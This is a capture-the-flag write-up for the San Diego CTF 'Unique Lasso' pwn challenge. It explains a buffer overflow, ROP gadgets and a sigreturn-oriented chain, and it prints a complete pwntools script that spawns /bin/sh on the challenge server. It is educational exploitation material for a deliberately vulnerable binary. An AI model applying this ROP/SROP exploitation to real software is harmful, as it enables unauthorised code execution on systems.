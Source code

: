 ## San Diego CTF: Unique Lasso [pwn]
##### *tl;dr: syscall doesn't ret but goes in a loop where rax value is taken from rdx -> from there we can pivot to a SIGROP to do an execve syscall*

![](lasso_desc.png)
## Challenge Information
#### We were provided with a chunky boi, 64-bit statically-linked binary. With this information alone, we can safely deduce that this challenge will contain a lot of useful gadgets that can be used for return oriented programming. Security protections enabled are NX and canary, however there is no PIE and only partial RELRO.

## Vuln Triage
![](lasso_ghidra.png)
#### Initially running the program promts us to guess how long a lasso is, then prints out our input. Opening up the binary in ghidra, we are immediately able to spot the vulnerability. Our input buffer is only allocated for 2 bytes but the fgets call reads up to 600, thus we have a clear buffer overflow. As it becomes clear that we need to do ROP, it's only a matter of finding the right gadgets to use.

```
0x00000000004005af : pop rax ; ret 
0x00000000004006a6 : pop rdi ; ret 
0x0000000000410b63 : pop rsi ; ret 
0x000000000044a0a5 : pop rdx ; ret 
0x000000000040125c : syscall (profit)
```
#### Using the ROPgadget utility (`ROPgadget --binary ./uniqueLasso > gadgets.txt`), we find a gold mine since we pretty much have gadgets to control what we place into registers as well as the address to the syscall instruction. So our plan here would be to use the gadgets to perform an `execve('/bin/sh\x00', 0, 0)` call. 

## Payload Crafting
#### From this [syscall table](https://filippo.io/linux-syscall-table/) we can see what we need to place in the registers for a specific syscall. The `rsi` and `rsi` registers can just be set to null, the `rax` register should be 59, and `rdi` should have a pointer to the '/bin/sh' string. Since we don't have a pointer to /bin/sh in memory, we need to place it ourselves.

#### We can first create a payload for a read() syscall. We can just refer to the linked syscall table to check what to fill in which registers. For this to work, we need to find a writable region in memory that isn't affected by randomization. The address `0x6b6000` works for us.

```python
#: EXPLOIT INTERACTION STUFF
context.arch = 'amd64'
pop_rdi = 0x4006a6
pop_rdx = 0x44a0a5
pop_rsi = 0x410b63
pop_rax = 0x4005af
syscall = 0x40125c

payload = cyclic(14)
#: read(stdin, 0x6b6000, 0x10)
payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rdx)
payload += p64(0x10)
payload += p64(pop_rsi)
payload += p64(0x6b6000)
payload += p64(pop_rax)
payload += p64(0x0)
payload += p64(syscall)

p.sendline(payload)
time.sleep(6.9)
p.sendline('/bin/sh\x00')
```

![](lasso_confirm.png)
#### Running the script and verifying it in gdb shows that we have successfully writen the string to memory and we have a known pointer address to it. But there's a catch: the syscall instruction doesn't have a `ret` after it but instead continues to loop in an endless state.

![](lasso_loop.png)
#### However, the interesting detail to note is that it loops back to another syscall instruction and before that syscall instruction is executed, it moves the value from edx into eax. Since we can control the value of rdx, we can simply use it to influence what sycall gets called. For this part, the plan is to set the `rdx` value as `0xf` so that we can perform a SIGROP attack.

## Signal Return Oriented Programming
#### As the name of the technique implies, we will take advantage of the `rt_sigreturn` syscall to do our final payload. A quick summary of the technique taken from this [writeup](https://sec.alexflor.es/posts/2019/12/abusing-signals-with-sigrop-exploits/) states that *When a process receives a SIGRET signal, it takes the current stack frame and writes it to the registers. If you’re controlling the stack, then you can ostensibly create your own set of registers in a manner that places you in a more advantageous position during your exploit.* We can use this to setup registers to perform the execve call that we are aiming for.

```python
sigretframe = SigreturnFrame(kernel = 'amd64')
sigretframe.rax = 59
sigretframe.rdi = 0x6b6000 
sigretframe.rdx = 0
sigretframe.rsi = 0
sigretframe.rip = syscall
```

![](lasso_shell.png)
##### exploit.py
```python
from pwn import *

#: CONNECT TO CHALLENGE SERVERS
binary = ELF('./uniqueLasso', checksec = False)
#libc = ELF('./libc.so.6', checksec = False)

#p = process('./uniqueLasso')
#p = process('./uniqueLasso', env = {'LD_PRELOAD' : libc.path})
p = remote("lasso.sdc.tf", 1337)

#: GDB SETTINGS
breakpoints = ['break *main + 129', 'break *main']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))

#: EXPLOIT INTERACTION STUFF
context.arch = 'amd64'
pop_rdi = 0x4006a6
pop_rdx = 0x44a0a5
pop_rsi = 0x410b63
pop_rax = 0x4005af
syscall = 0x40125c

sigretframe = SigreturnFrame(kernel = 'amd64')
sigretframe.rax = 59
sigretframe.rdi = 0x6b6000
sigretframe.rdx = 0
sigretframe.rsi = 0
sigretframe.rip = syscall

payload = cyclic(14)
#: read(stdin, 0x6b6000, 0x10)
payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rdx)
payload += p64(0xf) #: syscall does not ret after, but goes in a loop where rdx is moved into rax
payload += p64(pop_rsi)
payload += p64(0x6b6000)
payload += p64(pop_rax)
payload += p64(0x0)
payload += p64(syscall)
payload += bytes(sigretframe)

#: PWN THY VULNS
p.recvuntil(b'long)\n')
p.sendline(payload)
time.sleep(6.9)
p.sendline('/bin/sh\x00')
p.interactive()
```
